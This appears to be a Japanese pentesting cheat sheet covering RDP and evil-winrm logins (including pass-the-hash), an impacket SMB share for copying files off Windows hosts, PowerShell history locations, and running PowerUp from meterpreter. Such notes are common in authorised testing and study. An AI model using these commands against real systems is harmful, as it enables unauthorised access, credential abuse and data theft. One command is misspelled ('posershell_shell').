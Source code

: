 # Tips

## リモート接続

### RDP

```shell
xfreerdp /u:<user> /p:<password> /v:<ip> /w:1280 /h:800 +clipboard

xfreerdp /u:<user> /p:<password> /v:<ip> /size:80% +clipboard
```

### WinRM

```shell
evil-winrm -i <ip> -u <user> -p <password>

# Pass-the-Hash
evil-winrm -i <ip> -u <user> -H <hashvalue>
```

## ファイル共有

Linux の共有フォルダに、Windows からアクセスする

```shell
python3 -m pipx install impacket
```

```shell
# kali側で共有設定。user,passwordはWindows側の認証情報。
$ mkdir share
$ python /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support -username <user> -password <password> public share

# Windows側からコピー
copy <file> \\<ip>\public\
```

## Powershell

### Powershell の履歴

```powershell
%APPDATA%\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

### Powershell プロセスのログ

```text
Application and Services Logs -> Microsoft -> Windows -> PowerShell -> OperationalApplication and Service Logs -> Windows PowerShell
```

### meterpreter から Powershell の起動

（例）
https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1

```shell
meterpreter > load powershell
meterpreter > posershell_shell
PS > . .\PowerUp.ps1
PS > Invoke-AllChecks
```
